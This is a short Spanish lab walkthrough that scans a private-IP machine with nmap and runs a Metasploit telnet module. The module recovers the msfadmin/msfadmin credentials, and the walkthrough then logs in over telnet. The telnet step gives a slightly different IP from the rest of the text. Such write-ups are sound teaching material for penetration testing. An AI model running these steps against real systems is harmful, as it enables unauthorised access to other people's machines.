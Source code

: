 **Vulneracion mediante explotacion del servicio telnet**

Para esto nos apoyaremos de la herramienta  nmap con el siguiente comando:

nmap -sV 192.168.222.131 

![image](https://github.com/user-attachments/assets/59ee4216-3d88-4314-afa5-7a80d7068fd5)

nos apoyaremos de la  herramienta metasploit, ingresando el siguiente comando para su  ejecucion:

msfconsole

En ella buscaremos algun script que sea compatible con nuestro servicio disponible y con nuestro objetivo que es ingresar a la maquina
![image](https://github.com/user-attachments/assets/b1406250-e7d4-4116-b29a-573e1a07b68a)


seleccionamos el esta herramienta con el comando:

 use 3

![image](https://github.com/user-attachments/assets/36c2102b-0255-44ca-a1a7-b5d4929bb07a)


visualizamos las opciones que tiene este script ya preparado, con el comando:

show options
![image](https://github.com/user-attachments/assets/33dd83f4-d1f3-4b29-a0b3-6b6d49f4af0c)


como se puede llegar a identificar nos faltaria completar el campo de RHOST que seria la ip nuestro objetivo.

En mi caso la ip fue de 192.168.222.131 esta se ingresa con el comando:

set RHOST 192.168.222.131

![image](https://github.com/user-attachments/assets/d02e1177-0d88-49c9-8774-37dee759692d)

Llegado a este punto se ejecunta con el comando run u exploit:

![image](https://github.com/user-attachments/assets/cf8d7462-b4e1-4d3e-804f-cf8bf549b948)

como se puede visualizar el gracias a este escript se pudo obtener las credenciales de acceso a la maquina.
user  : msfadmin
password : msfadmin

Procedemos a realizar la conexion telnnet colocando la ip y el puerto del objetivo, mediante el siguiente comando:
telnet 192.168.22.131 23
con esto se consagra la conexion con la maquina:

![image](https://github.com/user-attachments/assets/8a686e25-1fe0-48f5-8eec-09e79f8b7ce0)

si bien es cierto con la maquina objetivo en cuestion ya nos muestra sus credenciales para su ingreseo solo realizando  una conexion mediante el servicio de telnetl.





